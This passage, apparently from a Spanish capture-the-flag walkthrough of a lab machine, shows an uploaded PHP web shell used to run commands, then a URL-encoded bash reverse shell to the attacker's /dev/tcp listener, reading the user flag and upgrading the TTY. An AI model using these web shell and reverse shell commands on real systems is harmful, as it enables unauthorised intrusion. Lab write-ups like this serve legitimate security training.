 Al acceder a la imagen, seremos redirigidos al directorio donde se ha subido nuestra `web shell`. Verificamos que podemos ejecutar comandos arbitrarios en el sistema vulnerable desde la misma página web o desde la herramienta `cURL`.

<figure><img src="../../.gitbook/assets/imagen (490).png" alt=""><figcaption></figcaption></figure>

```bash
❯ curl -s 'http://admin.usage.htb/uploads/images/gzzcoo.php?cmd=id'
uid=1000(dash) gid=1000(dash) groups=1000(dash)
```

El siguiente paso será lograr obtener acceso remoto al sistema, para ello nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Aplicaremos un `URL Encode` hacia el comando que queremos ejecutar, que en este caso es una Reverse Shell y utilizaremos la `web shell` para ejecutar la Reverse Shell.

```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' | jq -sRr @uri
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22

❯ curl -s 'http://admin.usage.htb/uploads/images/gzzcoo.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22'
```

Comprobaremos que logramos acceder al sistema con el usuario `dash` y podemos visualizar la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.18] 58584
bash: cannot set terminal process group (1206): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$ cat /home/dash/user.txt    
cbd70***************************
```

Al obtener la Reverse Shell, realizaremos el tratamiento básico para obtener finalmente una TTY totalmente interactiva.

```bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ script /dev/null -c bash
<min/public/uploads/images$ script /dev/null -c bash          
Script started, output log file is '/dev/null'.
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
dash@usage:/var/www/html/project_admin/public/uploads/images$ export TERM=xterm                       
dash@usage:/var/www/html/project_admin/public/uploads/images$ export SHELL=bash
dash@usage:/var/www/html/project_admin/public/uploads/images$ stty rows 46 columns 230
```
